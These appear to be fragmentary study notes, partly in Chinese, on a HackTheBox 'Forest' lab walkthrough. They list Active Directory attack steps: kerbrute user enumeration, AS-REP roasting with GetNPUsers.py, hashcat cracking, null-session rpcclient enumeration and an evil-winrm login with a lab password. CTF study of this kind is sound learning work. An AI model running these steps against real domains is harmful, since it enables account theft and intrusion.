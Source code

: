 ```yaml
---
created: 2025-09-17T11:49:00 (UTC -04:00)
tags: []
source: https://systemweakness.com/htb-forest-machine-walkthrough-explanation-e8facb4db082
author: Bcourt
---
```


```
sudo sh -c 'echo "10.10.10.161 FOREST.htb.local" >> /etc/hosts'
```

### `**sh**`

- `sh` 是 **Shell 解释器**，也就是一个用来读取并执行命令的程序。
- 在大多数 Linux 系统中，`sh` 实际上是 `bash` 或 `dash` 的符号链接。
- 使用 `sh` 可以在一个干净的环境中执行命令。

---

### `**c**`

- `c` 参数告诉 `sh` **执行紧跟其后的字符串作为命令**。
- 单引号 `'...'` 中的内容都会被当作命令执行。

```Bash
//port 5985 WS-Man (Web Services for Management)
//port 47001 Windows Remote Management (WinRM)
nslookup 

NXDOMAIN stands for a non-existent domain
```
[[Notion/Common Tools/kerbrute]]
```Bash
since 88 is open so we can try kerbrute for user enum
kerbrute userenum --dc -d 
```
[[389]]
```Bash
since 389 open, ldap, can use ldapsearch
ldapsearch  -x -b -s -h 
GetNPUsers.py >

hashcat --hash-info | grep partofhash 
get model 18200
get user and pw 

```

```Bash
/port 445 Microsoft Directory Service. This port is primarily associated with 
the Server Message Block (SMB) protocol,
can use smbclient, rpcclient, smbmap, CrackMapExec enum4linux
smbmap -H 10.10.10.161
Remote Procedure Call rpc 
rpcclient -U "" -N 10.10.10.161
rpcclient $> enumdomusers
rpcclient $> enumdomgroups
since we find :group:[Domain Admins] rid:[0x200] so 
rpcclient $> querygroup 0x200
since :Num Members:1
rpcclient $> queryuser 0x1f4
 
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```
